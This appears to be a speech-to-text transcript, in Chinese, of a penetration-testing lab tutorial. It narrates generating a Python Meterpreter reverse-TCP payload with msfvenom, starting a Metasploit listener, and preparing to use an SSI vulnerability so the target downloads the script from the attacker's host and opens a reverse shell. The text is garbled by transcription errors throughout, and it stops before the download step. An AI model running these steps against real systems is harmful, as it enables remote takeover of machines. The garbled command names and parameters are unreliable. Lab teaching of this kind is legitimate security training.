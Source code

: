 咱们来生成笑。今天呢哎我们首先切换到桌面。好莱斯。今天我们不使用PHP哎的像，我们使用pasthon像来尝试。首先MSF。之后杠PIpathon。mattter printer之后是reverse。

TCP law host。也就是咱们靶厂IP地址来，我们来查看一下靶厂的IP地址。192。168。1。103啊，把它 copypy出来。paste完之后lower port。等于4445。

设是444哎之后杠F。run之后重定向到哎，这个root a。啊，咱们重新输入MSFVENOF呃，咱们之后是杠P表示它对应的平台的 shellten。Metter，没。Worse。TCP。

Law host。等于92。168。1。103lawport。表示他监听端口等于4444。生成的哎是一个源代码run重定向的。root目录下的desktop。然后那咱们是要。点PY回撤。

咱们这时候哎通过这个MSFVENOM哎生成了一个基于pyon的啊这样一个sell，并且它返回的哎这个地址是192。168。1。103，它监听的端口啊是444啊这样一个端口。

咱们在生成这样一个excel之后，哎，需要打开mettterpo，启动监听。首先输MSF control来打开mattaport。因为mateport啊是一个比较大的安全框架。

里边集成了渗透测试所有哎的这样一个过程的工具。所以说打开速度是比较慢的，因为它需要加载很多的模块。

![](img/c81b0bdaa80e917d342e54e9af9c5a7d_20.png)

打开之后，哎，我们。来启动监庆。首先use export it。之后来是MULTI。开子了。回撤，然后设置payload set payload。

之后哎我们因为这里使用的是pathon metal printer，我们把这个复制过来。花费哎之后我们。paste回去了。设置完这些呃那个expo和 payload之后，我们需要来设置对应的参数。

首先使用show options，查看一下我们需要设置哪些参数回撤。我们在这里啊可以看到需要设置啊咱们监听的啊这个主机以及对应端口，这里是跟咱们生成这个。web上还是。一样的需要设置对应的参数。

l host我们设置。卡利的这个IP地址。使用st。law host哎之后空格，哎之后粘贴进来。回去。咱们设置啊完成之后，需要查看一下是否设置成功，依然使用so。Opts回车。这时候哎咱们设置成功。

设置完之后，使用装来开启监听回车。咱们下面哎就来靶场上，也就是通过SSI这个漏洞来下载咱们对应啊这个脚本，并且执行反弹效。这里哎咱们输一个一，然后哎这里咱们输入对应的CMD。

首先哎咱们这里要使用下载的功能。通过什么下载呢？通过1个HTTP来这样一个写站点进行下载。192。168。1。103哎，之后是咱们shall点PY。咱们会想到。

咱们当前哎卡利linux并没有开启HTTP哎这样一个服务器，也就是阿帕奇服务器。那么咱们就需要哎开启对应的服务器，并且把hell移移送到哎咱们这个阿帕奇服务器跟目录。下面咱们在终端当中操作。


